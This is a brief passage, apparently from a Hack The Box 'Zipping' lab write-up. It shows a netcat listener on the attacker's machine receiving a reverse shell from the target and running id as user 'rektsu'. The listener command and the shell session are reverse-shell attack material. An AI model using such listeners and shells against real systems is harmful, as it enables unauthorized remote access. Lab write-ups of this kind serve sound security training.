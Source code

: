 ```bash
┌──(bravosec㉿fsociety)-[~/htb/Zipping/exploit]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.10.14.35] from (UNKNOWN) [10.129.61.217] 48818
Linux zipping 5.19.0-46-generic #47-Ubuntu SMP PREEMPT_DYNAMIC Fri Jun 16 13:30:11 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 19:01:47 up  1:29,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(rektsu) gid=1001(rektsu) groups=1001(rektsu)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(rektsu) gid=1001(rektsu) groups=1001(rektsu)
```


